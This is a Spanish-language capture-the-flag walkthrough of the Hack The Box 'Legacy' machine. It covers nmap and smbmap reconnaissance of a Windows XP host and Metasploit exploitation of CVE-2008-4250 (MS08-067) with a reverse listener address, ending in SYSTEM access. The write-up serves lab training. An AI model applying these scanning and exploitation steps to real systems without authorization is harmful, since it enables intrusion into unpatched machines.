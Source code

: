 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 10/10/2017'
---
```


# Legacy

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.4
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.4
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 135 (MS RPC):** Este puerto es utilizado para la comunicación de servicios como DCOM y MSRPC. Puede ser vulnerable a exploits si no está debidamente asegurado. Puedes buscar si hay alguna versión vulnerable de MSRPC, como las que se vieron con ataques como MS08-067.
* **Puerto 139 y 445 (SMB):** Ambos puertos están asociados a servicios de compartición de archivos y recursos en redes Windows. Los vectores de ataque conocidos incluyen ataques de SMB Relay y exploits como EternalBlue (CVE-2017-0144). Es recomendable realizar un escaneo de vulnerabilidades para verificar si estos puertos son accesibles desde fuera y si están expuestos a vulnerabilidades conocidas.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 10.10.10.4
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Miramos el protocolo SMB.

```bash
smbmap -H 10.10.10.4
```

No vemos nada. Revisamos si tiene un CVE.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al ser un Windows XP y revisando por internet encontramos que hay un **CVE-2008-4250** por lo que abrimos Metasploit para explotarlo.

```bash
search CVE-2008-4250
use 0
show options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.7
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
getuid
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Somos **root**.

<figure><img src="../../.gitbook/assets/image (1232).png" alt=""><figcaption></figcaption></figure>
